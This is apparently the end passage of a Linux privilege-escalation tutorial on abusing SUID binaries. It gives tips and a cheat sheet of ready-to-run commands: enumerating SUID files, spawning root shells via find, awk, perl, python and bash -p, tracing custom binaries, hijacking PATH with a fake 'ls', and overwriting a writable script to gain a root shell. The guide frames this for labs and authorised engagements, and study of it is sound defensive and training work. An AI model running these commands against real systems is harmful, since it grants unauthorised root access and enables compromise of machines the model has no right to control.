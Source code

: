 Notes on environment variables
- LD_PRELOAD/LD_LIBRARY_PATH are ignored for SUID programs by the dynamic loader (secure-execution mode). Don’t rely on these unless there is a specific misconfiguration that re-enables them.


## Practical tips

- Prefer bash -p to preserve effective UID 0; dash’s sh often lacks -p and may drop privileges.
- Always verify the SUID bit and owner: look for root-owned with -rws.
- Triage for unusual paths: /usr/local/bin, custom app dirs (/opt), and user directories are strong leads.
- Use ltrace first for quick wins on system()/popen() calls; fall back to strace if needed.
- PATH hijacking only works if the SUID binary calls commands without absolute paths and doesn’t sanitize PATH.
- Be cautious changing files that persist (e.g., writable scripts). Restore content in a real engagement; for labs this is fine.
- Keep an offline/printed GTFOBins list for SUID entries.
- If a GTFOBin doesn’t work, version or hardening may block it—pivot to analysis plus PATH/script hijacking.


## Minimal cheat sheet (one-screen flow)

```bash
# 1) Enumerate
find / -perm -4000 -type f ! -path "/snap/*" -exec ls -la {} + 2>/dev/null

# 2) Quick wins (examples)
# find (SUID)
find . -exec /bin/bash -p \; -quit
# awk (SUID)
awk 'BEGIN { system("/bin/bash -p") }'
# perl (SUID)
perl -e 'exec "/bin/bash","-p";'
# python (SUID)
python -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'
# bash (SUID)
bash -p

# 3) Analyze custom binary
strings /path/to/suid | egrep -i 'system|popen|/bin/|/usr/bin/'
ltrace -f -o /tmp/l.log /path/to/suid
strace -f -e execve,open,openat -o /tmp/s.log /path/to/suid

# 4) PATH hijack (if it calls 'cp', 'ls', etc. without full path)
echo -e '#!/bin/sh\n/bin/bash -p' > /tmp/ls; chmod +x /tmp/ls
export OLD_PATH="$PATH"; export PATH=/tmp:$PATH
/path/to/suid; id
export PATH="$OLD_PATH"; rm -f /tmp/ls

# 5) Writable script hijack (if invoked by SUID)
printf '#!/bin/sh\n/bin/bash -p\n' > /usr/local/bin/backup.sh; chmod +x /usr/local/bin/backup.sh
/path/to/suid; id
```
